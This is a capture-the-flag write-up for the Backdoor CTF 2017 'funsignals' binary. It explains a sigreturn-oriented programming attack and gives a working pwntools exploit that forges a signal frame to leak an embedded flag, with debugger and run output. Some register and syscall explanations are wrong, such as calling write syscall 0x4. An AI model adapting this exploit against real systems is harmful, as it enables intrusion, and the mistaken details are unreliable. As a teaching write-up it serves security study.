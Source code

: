 # backdoor ctf 2017 funsignals

This writeup is based off of: https://www.akashtrehan.com/writeups/backdoorctf17/2funsignals/

Let's take a look at the binary:
```
$	pwn checksec funsignals_player_bin 
[*] '/home/guyinatuxedo/Desktop/bd/fun/funsignals_player_bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
$	file funsignals_player_bin 
funsignals_player_bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
$	./funsignals_player_bin 
15935728
Segmentation fault (core dumped)
```

So we can see we are dealing with a `64` bit binary with no binary protections. Starting off, the code for this binary is really small. It only has three sections of code. Looking at the `__start` section we see two syscalls being made:

```
.shellcode:0000000010000000 _start:                                 ; Alternative name is '_start'
.shellcode:0000000010000000                 xor     eax, eax        ; __start
.shellcode:0000000010000002                 xor     edi, edi
.shellcode:0000000010000004                 xor     edx, edx
.shellcode:0000000010000006                 mov     dh, 4
.shellcode:0000000010000008                 mov     rsi, rsp
.shellcode:000000001000000B                 syscall
.shellcode:000000001000000D                 xor     edi, edi
.shellcode:000000001000000F                 push    0Fh
.shellcode:0000000010000011                 pop     rax
.shellcode:0000000010000012                 syscall
.shellcode:0000000010000014                 int     3               ; Trap to Debugger
.shellcode:0000000010000015
.shellcode:0000000010000015 syscall:
.shellcode:0000000010000015                 syscall
.shellcode:0000000010000017                 xor     rdi, rdi
.shellcode:000000001000001A                 mov     rax, 3Ch
.shellcode:0000000010000021                 syscall
```

The first syscall that is being made is for `read(stdin, $esp, 0x400)`:

```
────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x0               
$rdx   : 0x400             
$rsp   : 0x00007fffffffdef0  →  0x0000000000000001
$rbp   : 0x0               
$rsi   : 0x00007fffffffdef0  →  0x0000000000000001
$rdi   : 0x0               
$rip   : 0x000000001000000b  →  <_start+11> syscall 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x0               
$r12   : 0x0               
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdef0│+0x0000: 0x0000000000000001	 ← $rsp, $rsi
0x00007fffffffdef8│+0x0008: 0x00007fffffffe25f  →  "/home/guyinatuxedo/Desktop/bd/fun/funsignals_playe[...]"
0x00007fffffffdf00│+0x0010: 0x0000000000000000
0x00007fffffffdf08│+0x0018: 0x00007fffffffe297  →  "XDG_VTNR=7"
0x00007fffffffdf10│+0x0020: 0x00007fffffffe2a2  →  "XDG_SESSION_ID=c2"
0x00007fffffffdf18│+0x0028: 0x00007fffffffe2b4  →  "XDG_GREETER_DATA_DIR=/var/lib/lightdm-data/guyinat[...]"
0x00007fffffffdf20│+0x0030: 0x00007fffffffe2ec  →  "CLUTTER_IM_MODULE=xim"
0x00007fffffffdf28│+0x0038: 0x00007fffffffe302  →  "GPG_AGENT_INFO=/home/guyinatuxedo/.gnupg/S.gpg-age[...]"
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
 → 0x1000000b <_start+11>      syscall 
   0x1000000d <_start+13>      xor    edi, edi
   0x1000000f <_start+15>      push   0xf
   0x10000011 <_start+17>      pop    rax
   0x10000012 <_start+18>      syscall 
   0x10000014 <_start+20>      int3   
──────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "funsignals_play", stopped, reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x1000000b → _start()
─────────────────────────────────────────────────────────────────────────────────────────────────────
```

It xors `eax`,  `edi`, abd `edx` by itself to set them equal to `0` (which also sets `rax` and `rdi` equal to zero in this case). A `0` in the `rax` register specifies a read syscall, and a `0` in the `rdi` sepcifies scanning in data through `stdin`. It then moves the value `0x4` into the `dh` register, which is the upper two bytes of the edx register, which sets `rdx` equal to `0x400`. After that it moves the value in the `rsp` register into the `rsi` register, so we will be writing directly to the stack frame (since `rsp` wasn't adjusted at all to make space for variables). After that the read syscall is made (checkout `http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/` for more details).

After the read syscall, a sigreturn syscall is made. When the kernel delivers a signal from a program, it creates a frame on the stack before it is passed to the signal handler. Then after that is done that frame is used as context for a `sigreturn` syscall to return code execution to where it was interrupted. The syscall itself takes a single argument in the `rdi` register, but it's not used. We can tell that a sigreturn syscall is being made since it pops the value `0xf` into the `rax` register before making the syscall to sepcify a sigreturn syscall. Checkout https://lwn.net/Articles/676803/ and https://thisissecurity.stormshield.com/2015/01/03/playing-with-signals-an-overview-on-sigreturn-oriented-programming/ for more. 

Now it's just the question of where to jump with the sigreturn. There are three different syscalls each with a static address (`0x1000000b`, `0x10000015`, and `0x10000021`). We can just jump to any of them, and have a syscall where we control the registers (we will jump by setting the `rip` register equal to the address we are jumping to). Now for what to do. Looking in the binary, we can see that on the server the flag will be hard coded into the binary at a static address:

```
.shellcode:0000000010000023 flag            db 'fake_flag_here_as_original_is_at_server',0
.shellcode:0000000010000023 _shellcode      ends
```

As a result of that we can just do a write call to `stdout` with the address `0x10000023` (and as long as the size is big enough) we will get the flag. To setup the call, we will prep the registers like this:

```
Now for the sigreturn call, there are only five registers we care about
RIP:    Where we are jumping
RAX:    Specify the write syscall for after the jump
RDI:    Where will the output go (stdout)
RSI:    Where will we be writing from
RDX:    How much to write?

for that, we will
RIP:    0x10000021 (Syscall instruction, 0x10000015 and `0x1000000b will also work)
RAX:    0x4  specify write syscall, equal to SYS_write
RDI:    0x1 specify stdout, equal to STDOUT_FILENO
RSI:    0x10000023 address of flag, which we will be printing out
RDX:    0x100 to specify write 0x100 bytes
```

Putting it all together, we get the following exploit:
```
# This exploit is from: https://www.akashtrehan.com/writeups/backdoorctf17/2funsignals/

from pwn import *

# Establish the target
target = process("./funsignals_player_bin")
elf = ELF('funsignals_player_bin')

# Establish what architecture this is
context.arch = "amd64"

'''
Now for the sigreturn call, there are only five registers we care about
RIP:  Where we are jumping
RAX:  Specify the write syscall for after the jump
RDI:  Where will the output go (stdout)
RSI:  Where will we be writing from
RDX:  How much to write?

for that, we will
RIP:  0x10000021 (Syscall instruction, 0x10000015 and `0x1000000b will also work)
RAX:  0x4  specify write syscall, equal to SYS_write
RDI:  0x1 specify stdout, equal to STDOUT_FILENO
RSI:  0x10000023 address of flag, which we will be printing out
RDX:  0x100 to specify write 0x100 bytes
'''

# Create the stack frame
frame = SigreturnFrame()

frame.rip = 0x10000021

frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = elf.symbols['flag']
frame.rdx = 0x100

# Send the frame, then drop to an interactive shell to read the flag
target.send(str(frame))
target.interactive()
```

and when we run it:
```
$ python exploit.py 
[+] Starting local process './funsignals_player_bin': pid 2448
[*] '/home/guyinatuxedo/Desktop/bd/fun/funsignals_player_bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
[*] Switching to interactive mode
fake_flag_here_as_original_is_at_server\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00��\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1b\x00\x00\x00\x00\x00\x00\x15\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00#\x00\x00\x00\x00\x00\x00#\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00(\x00\x00\x00\x10\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00)\x00\x00\x00\x10\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x000\x00\x00\x00\x10\x00��@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00<\x00\x00\x00\x10\x00��@\x00\x00\x00\x00\x00\[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Process './funsignals_player_bin' stopped with exit code -4 (SIGILL) (pid 2448)
```
